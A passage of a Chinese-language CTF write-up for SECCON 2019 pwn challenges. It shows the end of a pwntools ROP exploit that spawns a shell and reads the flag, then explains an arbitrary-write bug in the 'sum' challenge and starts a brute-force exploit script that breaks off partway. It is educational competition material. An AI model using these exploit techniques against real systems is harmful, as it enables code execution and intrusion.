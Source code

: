 ```python

sleep(1)
r.sendline('2')
payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(pop_rdi)+p64(0x602000)+p64(system)

r.sendline(payload)

r.interactive()
```

```
Invalid username
$ ls
810a0afb2c69f8864ee65f0bdca999d7_FLAG
cat
lazy
ld.so
libc.so.6
q
run.sh
$ ./cat 810a0afb2c69f8864ee65f0bdca999d7_FLAG
SECCON{Keep_Going!_KEEP_GOING!_K33P_G01NG!}
```

## sum

程序功能是输入5个数求和

![6](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/6.jpg)

![5](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/5.jpg)



![7](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/7.jpg)

![8](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/8.jpg)

实际上可以输入6个数，且第6个数覆盖v9

6个数之和写入v9，这样就可以任意地址写

`'-1  -1 2 -{} {} {}'.format(addr, value, addr)`

输入6个数在sum执行完之后会进exit，所以首先应该把exit_got写为start，实现重复利用

Rwind给出一种爆破的方法，由running跑出

```python
from pwn import *
import os

i = 0
while True:
    try:
        
        p = remote("sum.chal.seccon.jp", 10001)
        p.recvuntil("[Example]\n")
        p.recvline()
        payload = '1 -2099676 1 1 1 6295624'

        p.sendline(payload)
        p.recvuntil("[Example]\n")
        p.recvline()
        payload2 = "-6295571 1 1 -2 -17031615434157195264 6295571"
        # raw_input()
```